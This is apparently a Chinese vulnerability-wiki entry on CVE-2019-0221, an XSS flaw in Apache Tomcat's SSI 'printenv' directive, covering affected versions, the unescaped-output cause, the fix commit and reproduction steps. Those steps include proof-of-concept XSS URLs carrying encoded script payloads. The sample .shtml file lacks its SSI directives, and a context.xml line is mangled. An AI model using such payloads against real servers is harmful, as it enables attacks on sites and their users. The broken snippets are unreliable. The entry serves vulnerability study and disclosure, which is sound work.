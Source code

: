 （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS
======================================================

一、漏洞简介
------------

Apache
Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用"printenv"指令的情况下，才能利用此漏洞。

利用条件

-   必须在Apache Tomcat中启用SSI支持 -
    全局或特定Web应用程序。默认情况下不启用。
-   Web应用程序中必须存在具有"printenv"SSI指令的文件(通常为".shtml")。
-   攻击者必须能够访问该文件。

二、漏洞影响
------------

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

三、复现过程
------------

### 漏洞分析

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的[完整列表](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html#Variables)）。"echo"指令打印出单个变量的值，而"printenv"指令打印出所有变量的值。这两个指令都输出HTML。Apache
Tomcat对于使用"echo"指令时正确地转义了XSS值，但对于"printenv"指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。比较"echo"参数中正确转义输出的[代码](https://github.com/apache/tomcat/blob/master/java/org/apache/catalina/ssi/SSIEcho.java)：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId27.png)

与未对输出进行正确转义的"printenv"参数的代码相比：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId28.png)

修复方法是添加如下[提交](https://github.com/apache/tomcat/commit/15fcd16)中所示的编码：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId30.png)

### 漏洞复现

-   1.在Windows中安装Java运行时环境(JRE)。
-   2.下载有漏洞的Tomcat版本并解压。
-   3.在第19行修改conf\\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）

```{=html}
<!-- -->
```
    Context privileged =“true”>

-   4.根据这里的[指令](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html)修改conf\\web.xml以启用SSI
    servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
-   5.将以下代码放在"webapps / ROOT / ssi / printenv.shtml"中：

```{=html}
<!-- -->
```
    <html><head><title></title><body>
    Echo test: <br /><br />
    Printenv test: 
    </body></html>

-   6通过以下命令运行Tomcat：

```{=html}
<!-- -->
```
    cd bin
    catalina run

-   7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的"echo"指令与无法正确转义的"
    printenv "指令之间的区别

```{=html}
<!-- -->
```
    http://www.0-sec.org:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E

    http://www.0-sec.org:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId33.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/5310
